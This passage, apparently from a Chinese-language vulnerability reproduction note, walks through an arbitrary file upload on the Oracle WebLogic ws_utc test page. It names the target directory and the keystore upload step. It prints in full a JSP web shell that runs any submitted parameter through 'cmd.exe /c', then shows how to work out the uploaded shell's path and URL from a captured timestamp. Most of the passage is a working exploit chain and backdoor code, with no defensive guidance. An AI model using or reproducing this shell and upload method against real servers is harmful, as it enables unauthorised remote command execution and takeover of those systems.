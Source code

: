 可以将当前的工作目录为更改为其他目录。以本地环境为例，可以部署到

```
C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain\servers\AdminServer\tmp\_WL_internal\com.oracle.webservices.wls.ws-testclient-app-wls\4mcj4y\war 
```

选择右边的安全栏目，添加JKS Keystores上传文件。假设chybeta.jsp内容如下：

```
<%@ page import="java.util.*,java.io.*,java.net.*"%>
<HTML><BODY>
<FORM METHOD="POST" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "\n<br>");
        Process p = Runtime.getRuntime().exec("cmd.exe /c " + request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); disr = dis.readLine(); }
        }
%>
</pre>
</BODY></HTML> 
```

抓包获取到时间戳为1531987145013，则上传到的位置即config\keystore\1531987145013_chybeta.jsp

![image](../img/93acf34294360d86c76a5aa05c2dcf92.png)

访问http://localhost:7001/ws_utc/config/keystore/1531987145013_chybeta.jsp

![image](../img/235b3dc61590df7c22ad8efd97bb262a.png)
